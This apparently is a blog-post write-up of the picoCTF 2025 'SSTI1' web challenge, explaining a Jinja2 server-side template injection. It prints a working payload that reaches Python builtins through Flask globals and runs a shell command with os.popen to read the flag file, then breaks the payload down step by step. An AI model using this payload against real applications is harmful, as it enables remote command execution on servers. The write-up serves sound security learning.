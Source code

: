 ```yaml
---
author: Nishanth Jadav
pubDatetime: 2025-03-22T04:38:05Z
modDatetime: 2025-03-22T04:38:05Z
title: picoCTF 2025 - SSTI1
slug: pico-ctf-2025/ssti-1/picoctf-2025-SSTI1
featured: true
draft: false
tags:
  - web
  - picoCTF2025
  - easy
description: A writeup for the web exploitation challenge SSTI1
---
```


## Table of contents

## Challenge-Information 

100 Points

Tags: picoCTF 2025, Web Exploitation, browser_webshell_solvable

Author: VENAX

Challenge Link: https://play.picoctf.org/practice/challenge/492

## Explanation
# CTF Write-Up: Jinja2 Web Exploit

## Background

In this CTF challenge, the goal was to exploit a web application using Jinja2 template injection. Jinja2 is a common templating engine for Python that allows developers to inject variables and execute Python code within templates. Exploiting Jinja2 vulnerabilities often involves creating payloads that manipulate the template engine to execute arbitrary commands.

## Challenge Description

The challenge provided a web application vulnerable to Jinja2 template injection. The objective was to read the contents of a file located at `/challenge/flag` on the server.

## Exploitation Strategy

### Understanding Jinja2 Injection

Jinja2 allows access to global variables through the `__globals__` attribute of the `application` object in Flask applications. By leveraging this feature, it's possible to access built-in Python functions such as `__import__` and subsequently execute commands.

### Payload Breakdown

The payload used for this exploit was:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

Let's examine this more closely starting with:
```
{{ ... }}
```

This is a Jinja2 expression, used to evaluate and render dynamic content in a template. 

```
request.application
```

This line accesses the ```application``` attribute of the ```request``` object.

```
.__globals__
```

Retrieves the global namespace, which contains built-in objects and functions.

```
.__builtins__
```

Accesses Python's built-in functions and modules.

```
.__import__('os')
```

Dynamically imports the ```os``` module, which allows interaction with the operating system. Note: commands like this one are obviously vulnerable to exploits, and were blacklisted in the more difficult, part 2 of this problem, SSTI2.

And now, accessing the flag with: 
```
.popen('cat /challenge/flag')
```

Executes the shell command: 
```
cat /challenge/flag
```

Reading the contents of the file ```/challenge/flag```

And lastly,
```
.read()
```

Reads and **returns the output** of the executed command.

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
